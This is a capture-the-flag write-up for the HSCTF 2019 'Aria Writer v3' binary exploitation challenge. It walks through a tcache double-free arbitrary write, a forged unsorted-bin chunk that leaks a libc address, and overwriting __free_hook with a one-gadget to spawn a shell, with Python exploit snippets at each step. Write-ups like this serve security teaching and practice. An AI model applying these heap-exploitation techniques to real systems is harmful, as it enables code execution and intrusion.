 HSCTF 2019

Aria Writer v3

After all that writing, Rob's gone blind. He still needs to finish this song though :(

Binary Exploitation

468 points


# Summary

Rob can write and discard drafts, thus allowing for the allocation of chunks smaller than 420 bytes with values of our choosing, as well as the freeing of the current chunk. Unlike Aria Writer v1, there is no longer a limitation on the number of times we discard our letter; however, there is a limitation on the number of letters we can write.

There happens to be a global array `curr`, with

* `curr[0]` being the pointer for `malloc()` and `free()`
	
* `curr[1]` and beyond being the name. For convenience, I will refer to this as `name` (0x602048).

# Vulnerability

As with Aria Writer v1, the tcache double free vulnerability can be exploited to write into an arbitrary location. To reduce redundancy, I implemented this under a function called `tcache_write`.

```python

def tcache_write(block_size, target, new_value):
    '''
    Exploits tcache double free to write into arbitary location

    Args:
        block_size - size of memory block to be allocated
        block_size - size of memory block to be allocated
        target - target address to be overwritten. Must be aligned to 0x10
        new_value - the value to be written to target address
    '''
    malloc(block_size, '')
    free()
    free()
    malloc(block_size, p64(target))
    malloc(block_size, '')
    malloc(block_size, new_value)
	
```

`block_size` does not matter as long as it uses a different tcache bin for every call. Using different bins may not be neccessary, but it is a good safety measure, since the target location might have some random value that will be copied into the tcache bin.

# Exploit

The idea is to overwrite `__free_hook` with one gadget, which requires leaking the location of libc.

Since Aria Writer v3 does not limit the number of times option 2 is chosen, leaking `main_arena` might be doable through the fd and bk pointers of small bin. However, I forged a large chunk instead and placed it in the unsorted bin because my solution was modified from that of Aria Writer v1.

For a chunk to be placed in the unsorted bin, it must

* not be on the top of the heap, or else it will be merged with the top chunk rather than stored in a bin. Thus, we will forge two small chunks after it. I am not sure why it is two and not one, but the program crashes with only one. When I have time, I will figure it out later.
	
* not fit into any tcache bins. There are 40 tcache bins, starting with 0x10 and incrementing by 0x10. Thus, the forged chunk should have a size greater than 0x410. I went with 0x420.

There is ample space in the data segment to hold the forged chunk. The forged chunk is in the location of `name` because `name` is printed at every turn, giving us a means of viewing the leak.

```python

# 1. prepare the chunk header for the forged chunk with size of 0x420
#    0x421 will be read into address 0x602048 (name)
conn.send(p64(0x421) + '\n')
name = 0x602040   # use 0x602040 from now on since malloc expect the buffer to be aligned to 0x10

# 2. forge small chunks at 'name + 0x420' to satisify unsorted bin conditions
tcache_write(0x60, name + 0x420, p64(0)+p64(0x21)+'c'*0x10+p64(0x20)+p64(0x21))

# 3. instantiate chunk 0x602050 with 0x420 bytes
tcache_write(0x70, name + 0x10, '')

```

With these conditions met, we free, consequently placing the forged chunk into the unsorted bin.

```python

free()

```

Since the forged chunk is the only chunk in the unsorted bin, both the forward and back pointers should point to somewhere in `main_arena`.
Unfortunately, we can't obtain our leak just yet, as the string terminates early due to a null byte. It prints the ascii representation of `0x21 0x04`.

In Aria Writer v1, there was a secret option 3 that printed 200 characters of `name`. Unfortunately, we don't have that luxury here and thus must find a different way to circumvent this.

I made a request for an arbitrary amount of memory. Size does not matter as long as it fits in a tcache bin. Its contents must not exceed 7 bytes, as explained later.

```python

malloc(0x10, '')

```

After the allocation, the memory layout will be:

	0x602040 -> 0x602050        0x0021              [chunk_header for 0x10 alloc]
	
	0x602050 -> xxxxxxxx        main_arena+0x50     [fd and bk (unlinked from main_arena)]
	
	0x602060 -> 0x602040        0x0401				[chunk_header for the remainder]
	
	0x602070 -> main_arena+0x60 main_arena+0x60     [fd and bk (linked into main_arena)]
	
Note that ```fd``` is corrupted by the '\n'. Thus, the string we pass in must not exceed 7 bytes, or else ```bk``` will also be corrupted.


From here, I overwrote everything leading up to the second pointer with filler.

```python

tcache_write(0x30, name, 'a' * 0x17)

```

As the null terminator is now gone, `main_arena` should be printed properly on the next turn.

We calculate the address of libc from offsets found under the debugger and overwrite `__free_hook` with our one gadget. Again, we use `tcache_write`.

```python
tcache_write(0x90, free_hook, p64(libc_address + one_gadget))
```

Another call to free will trigger `__free_hook`, and our one gadget will be called to get into the shell.